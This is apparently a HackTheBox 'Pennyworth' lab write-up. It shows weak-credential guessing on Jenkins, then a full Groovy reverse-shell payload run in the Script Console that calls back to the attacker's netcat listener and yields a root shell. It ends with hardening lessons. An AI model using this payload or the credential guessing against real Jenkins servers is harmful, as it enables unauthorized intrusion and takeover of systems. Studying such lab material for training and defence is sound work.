## 🔹 Quick Summary (For Portfolio Index)

**Pennyworth** is a beginner-friendly HTB machine demonstrating how weak Jenkins credentials and the Jenkins Script Console can be abused to achieve **remote code execution** and a **reverse root shell**. This lab reinforces core concepts in enumeration, service misuse, and reverse shell exploitation.

---
# 📝 Summary — HTB Pennyworth

The *Pennyworth* machine focuses on exploiting a misconfigured Jenkins continuous integration server exposed on a non-standard port. Using basic enumeration techniques, you discover that Jenkins is accessible without proper hardening or strong authentication controls. By identifying weak credentials and leveraging the Jenkins Script Console, you execute Groovy code directly on the server. This results in full **remote code execution (RCE)** and a **reverse shell as root**, demonstrating the real-world risks of misconfigured CI/CD systems.

---

# 🎯 Purpose of This Lab

The primary purpose of the Pennyworth lab is to help beginners understand:

- **Service Enumeration** using Nmap  
- **Weak Password Testing** and default credentials  
- **Jenkins exploitation** through the Script Console  
- **Reverse shell techniques** using Groovy + Netcat  
- **Privilege escalation awareness**, especially in CI/CD environments  

---


# 🧠 Pennyworth — HackTheBox Walkthrough

This write-up documents how I enumerated and exploited the **Pennyworth** machine on HackTheBox using
a misconfigured Jenkins instance to gain a **reverse shell as root**.

---

## 🔎 1. Enumeration

Start with an Nmap scan to identify running services on the target.

```bash
sudo nmap -sC -sV 10.129.141.161
```



- Only **TCP/8080** is open  
- Service: **HTTP** running on **Jetty 9.4.39.v20210325**  
- Indicates a web application listening on a non-default HTTP port

---

## 🌐 2. Web Enumeration — Jenkins Login

Browse to the web service found during Nmap:

```text
http://10.129.141.161:8080/
```

This reveals a **Jenkins** login page.



Since this is a starting-point style machine, a common approach is to test for **default / weak credentials**.

I tried several credential pairs such as:

```text
admin:admin  
admin:password  
root:root  
root:password  
```

Eventually I logged in successfully with:

```text
root : password
```



Once authenticated, I was dropped into the Jenkins dashboard.



---

## 🧩 3. Identify Jenkins Version & Attack Surface

At the bottom-right corner of the Jenkins UI, the version is displayed as **2.289.1**:



Even when there is no direct public RCE exploit for this exact version, Jenkins often exposes powerful
functionality to authenticated users — especially the **Script Console**.

From the left-hand menu:

> **Manage Jenkins → Script Console**



The Script Console executes **Groovy** code on the Jenkins master, which can be leveraged to obtain
a **remote code execution (RCE)** and ultimately a reverse shell.

---

## 🌐 4. Preparing the Reverse Shell Payload

First, I needed my VPN IP address (tun0) to use as the callback host in the Groovy payload.

```bash
ip a | grep tun0
```



With the tun0 IP, I updated the following Groovy payload to point back to my machine:

```groovy
String host = "{your_IP}";   // replace with tun0 IP
int port = 8000;
String cmd = "/bin/bash";
Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);
InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();
while (!s.isClosed()) {
    while (pi.available() > 0) so.write(pi.read());
    while (pe.available() > 0) so.write(pe.read());
    while (si.available() > 0) po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try { p.exitValue(); break; } catch (Exception e) { }
}
p.destroy();
s.close();
```

This payload instructs Jenkins to:

1. Spawn a `/bin/bash` process on the target.  
2. Connect back to my machine on port `8000`.  
3. Pipe input/output between the shell and the network socket, forming an interactive reverse shell.

---

## 🎧 5. Start a Netcat Listener

Before running the Groovy script, I started a **netcat listener** on my attack box:

```bash
nc -lvnp 8000
```



This puts netcat into:

- `l` — listen mode  
- `v` — verbose output  
- `n` — numeric IPs only  
- `p 8000` — listening on TCP port 8000  

Once the listener is ready, I executed the Groovy script in the Jenkins Script Console.

After a moment, the listener showed an incoming connection from the target:

```text
connect to [10.10.14.94] from (UNKNOWN) [10.129.141.161] 35200
```



---

## 🐚 6. Gaining a Root Shell

With the connection established, I verified the level of access I obtained:

```bash
whoami
id
ls
```



The output confirmed I was running as **root** on the target system:

- `uid=0(root)`  
- `gid=0(root)`  
- `groups=0(root)`  

From here, I could fully explore the system. Listing the `/root` directory:

```bash
cd /root
ls
```

Revealed the `flag.txt` file.



To complete the box, I displayed the flag:

```bash
cat flag.txt
```

The actual flag value is **redacted** in this public write-up to comply with HackTheBox rules.



🏁 **Box complete — root access obtained via Jenkins Script Console RCE.**

---

## 🧠 Lessons Learned

- Default or weak credentials like `root:password` on critical services such as Jenkins can lead to **full system compromise**.  
- Even when a specific version has no widely-known CVE, exposed administration features (like Jenkins Script Console)
  can enable **arbitrary code execution** after authentication.  
- Reverse shells using tools like netcat and simple Groovy/Java payloads remain a powerful and common technique
  for post-authentication exploitation.  
- Monitoring for unusual outbound connections and restricting who can access Jenkins (and its Script Console)
  are essential hardening steps.

---

## 📁 Repository Layout Suggestion

```text
HTB/
└── Pennyworth/
    ├── pennyworth.md
    ├── images/
    │   ├── pennyworth_01.png
    │   ├── pennyworth_02.png
    │   ├── pennyworth_03.png
    │   ├── pennyworth_04.png
    │   ├── pennyworth_05.png
    │   ├── pennyworth_06.png
    │   ├── pennyworth_07.png
    │   ├── pennyworth_08.png
    │   ├── pennyworth_09.png
    │   ├── pennyworth_10.png
    │   ├── pennyworth_11.png
    │   └── pennyworth_12.png
    └── notes/
        └── commands.txt
```

You can drop this folder directly into your **HackTheBox portfolio repo** alongside your other labs.
